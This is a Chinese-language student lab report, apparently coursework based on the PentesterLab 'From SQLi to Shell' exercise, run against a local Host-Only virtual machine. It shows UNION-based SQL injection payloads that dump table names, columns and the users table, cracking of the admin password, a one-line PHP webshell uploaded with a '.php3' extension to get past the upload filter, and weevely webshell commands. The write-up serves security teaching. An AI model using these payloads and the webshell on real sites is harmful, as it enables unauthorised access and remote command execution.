# chap0x07 从SQL注入到Shell

----------

## 实验目的
* 在基于PHP的网站中使用SQL注入来获取对管理页面的访问权限
* 利用获取的权限在服务器上执行代码
## 实验环境
* 客户端
	<pre>
	名称：Client
	网卡：eth1(Host-Only 网络)
	IP：192.168.56.102
	</pre>
* 服务端
	<pre>
	名称：Server
	网卡：eth0(Host-Only 网络)
	IP：192.168.56.101
	</pre>
## 实验过程
* 检测网站是由哪种语言编写
	* Server在线状态下，Client的Firefox浏览器中打`inspect element`然后访问地址`192.168.56.101`,在Network栏检查Response headers的X-Powered-By字段。
	* 结果：网站基于PHP编写
	*  
* 检测是否可进行SQL注入
	* 通过SQL查询语句返回的错误提示信息检测网站是否可进行SQL注入
	* 访问`192.168.56.101/cat.php?id=num`,num为不同的数字时返回的结果如下
	* 
	* 
	* 
	* 输入`id=2-1`时仍返回id=1时的页面，说明URL中提供的参数被当作整数进行SQL查询，且允许用户进行基本的数学运算。在输入`192.168.56.101/cat.php?id=2-1'`时引起了SQL语法错误，说明服务端对用户的输入没有做处理进行了SQL查询，因此可以将此处作为一个注入点。
* 尝试进行SQL注入
	* 查询语句的开头不能由客户直接修改，因为它存在于web端的PHP代码中，但是我们可以使用`union`语句来构造查询语句的结尾。要使用`UNION SELECT`并且能让服务器正确返回查询结果，而不是触发错误，首先要通过`order by`语句找到select语句的查询结果返回了多少列，发现当URL=`\cat.php?id=2 order by 5`时发生错误：
	*  
	* 或者可以使用`/cat.php?id=2 union select 1,2,3,4`找到select语句的查询结果返回了多少列，因为只有当union前后查询结果返回的列数相同时才不会触发错误。使用这种方式查询时发现网站对union后面的查询语句返回结果是`picture:2`说明第二列是作为图片名输出的。那么可以将需要的查询结果放到第二列来显示到网页。
	* 
	* 现在已经知道SQL查询后返回的结果有4列，使用查询语句` UNION SELECT 1,table_name,3,4 FROME information_schema.tables`即可返回数据库中所有的table。` UNION SELECT 1,column_name,3,4 FROME information_schema.columns`用于返回数据库中所有的列。
	* 
	* 但是我们需要的是每一列对应的表。因此需要使用`concat`函数，将两个字符串连接为一个字符串。查询语句为`1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns`。返回的结果显示了数据库中每一列对应的表。
	* 
	* 在众多返回结果中发现users表，其对应的列名有id,login,password三个。
	* 
	* 现在开始对users表进行信息筛选。发现数据库对password进行了加密，通过浏览器解密得password:P4ssw0rd.
	* 
	* 现在我们获得了网站管理员的登录名和密码，相当于获得了管理页面的访问权限。接下来就是如何上传webshell并执行。
	* 
* 尝试上传webshell并执行
	* 先在本地编写PHP代码并保存为shell.php文件,然后利用网站的上传功能上传此文件。发现上传失败，网站对PHP文件的上传进行了限制。将文件重命名为shell.php3，上传成功。
	<code>code：
	<?php
	  system($_GET['cmd']);
	?></code>
	* 
	* 通过浏览器的网页编辑功能找到上传的shell.php3在web服务器端的保存位置，位置为`admin/uploads/shell.php3`
	* 
	* 现在开始尝试执行上传的webshell。返回结果是web服务器当前内核，Linux。至此webshell成功执行。
	* 
* 高级webshell
	* 使用kali自带的工具`weevely`
	* 用法
		* `weevely generate <password> <path>`,生成webshell
		* 将生成的webshell上传至网站
		* `weevely <URL> <password> [cmd]`,用weevely与web端建立连接
		* 
## 结尾
* 参考资料[https://pentesterlab.com/exercises/from_sqli_to_shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course)
* 参考同学作业[https://github.com/CUCCS/2018-NS-Public-TheMasterOfMagic](https://github.com/CUCCS/2018-NS-Public-TheMasterOfMagic/tree/ns-chap0x07)